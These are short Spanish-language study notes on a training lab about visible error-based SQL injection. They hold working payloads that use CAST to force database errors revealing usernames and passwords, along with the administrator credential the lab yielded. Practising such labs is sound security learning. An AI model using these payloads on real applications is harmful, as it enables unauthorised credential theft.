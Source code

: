 # 13 Lab: Visible error-based SQL injection

```sql
' //Para ver el error que muestra
Debido a esto validamos que si o si nos va a pedir un char

' AND 1=CAST((SELECT 1) AS int)--
' AND 1=CAST((SELECT username FROM users) AS int)--

' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--

user:administrator
pass:gp0zyjqbgui3toqe99hj
```

![Untitled](13%20Lab%20Visible%20error-based%20SQL%20injection%2012cfab5460ec809d8c54cecfbcf54504/Untitled.png)

Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'zoEelT8oug2qYxK9''. Expected  char

Adapte la consulta para incluir una subconsulta SELECT genérica y convierta el valor devuelto a un tipo de datos int **Vemos que no muestra ningun error**

![Untitled](13%20Lab%20Visible%20error-based%20SQL%20injection%2012cfab5460ec809d8c54cecfbcf54504/Untitled%201.png)

![Untitled](13%20Lab%20Visible%20error-based%20SQL%20injection%2012cfab5460ec809d8c54cecfbcf54504/Untitled%202.png)

Aquí observamos la utilidad del CAST, puesto que nosotros vamos a forzar a que el resultado de nuestro select se convierta en INT, nos mostrará el error de “valor de la consulta” no puede ser un numero, revelándonos el valor

![Untitled](13%20Lab%20Visible%20error-based%20SQL%20injection%2012cfab5460ec809d8c54cecfbcf54504/Untitled%203.png)

![Untitled](13%20Lab%20Visible%20error-based%20SQL%20injection%2012cfab5460ec809d8c54cecfbcf54504/Untitled%204.png)

fdfsdfsd